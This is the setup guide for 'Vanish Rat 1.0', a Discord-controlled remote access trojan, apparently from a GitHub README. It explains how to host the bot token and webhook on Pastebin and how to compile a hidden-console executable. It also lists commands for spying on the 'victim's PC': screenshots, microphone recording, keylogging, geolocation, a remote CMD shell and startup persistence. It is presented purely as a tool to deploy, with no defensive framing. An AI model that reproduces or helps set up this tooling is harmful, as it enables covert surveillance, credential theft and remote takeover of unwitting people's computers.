 
![discord](https://github.com/user-attachments/assets/341b5144-9c33-40ec-b229-c4ce3ad8a600)


             Vanish Rat 1.0 - Setup Guide
--------------------------------------------------------
Author  : @deadconvicess | Packaged By: #deadconvicess
License : MIT
--------------------------------------------------------

 WHAT YOU NEED
----------------
1. Python 3.11+ Installed
2. A Discord Bot Token (https://discord.com/developers/applications)
3. A Discord Webhook URL (Discord Channel > Integrations > Webhooks)
4. Pastebin or Gist account for hosting config


 SETUP INSTRUCTIONS
---------------------
1. Create a Pastebin/Gist with:
   Line 1: Your Discord Bot Token
   Line 2: Your Discord Webhook URL

2. Make sure it's RAW viewable (Unlisted or Public)

3. Copy the RAW link and paste it into Rat.py:
   Example:
   config_url = "https://pastebin.com/raw/YourPasteID"

4. Install the required packages:
   pip install -r requirements.txt
   OR manually install:
   pip install discord requests pypiwin32 pycaw comtypes opencv-python numpy sounddevice scipy pyautogui pynput cryptography pycryptodome pillow aiofiles pyttsx3

5. Run the bot:
   python Rat.pyw


 OPTIONAL: BUILDING EXE
---------------------------------
For No Console Window:
- Nuitka: pip install nuitka
  nuitka --onefile --windows-disable-console Rat.py

- OR PyInstaller: pip install pyinstaller
  pyinstaller --onefile --noconsole Rat.py


DISCORD COMMAND PANEL
---------------------------
Once bot is running, type:
   .help
To view available commands.

Example Commands:
 - .ss        - Screenshot victim's PC
 - .mic       - Record 15 seconds of mic audio
 - .key start - Start keylogger
 - .geo       - Get public IP and location
 - .shell     - Run CMD commands on target machine
 - .stup      - Add bot to startup
 - .exit      - Disconnect bot


 TROUBLESHOOTING
-------------------
- Check bot token and webhook are valid and accessible
- Ensure all packages are installed
- Make sure you used a RAW Pastebin/Gist link


ENJOY USING VANISH RAT 1.0 

--------------------------------------------------------

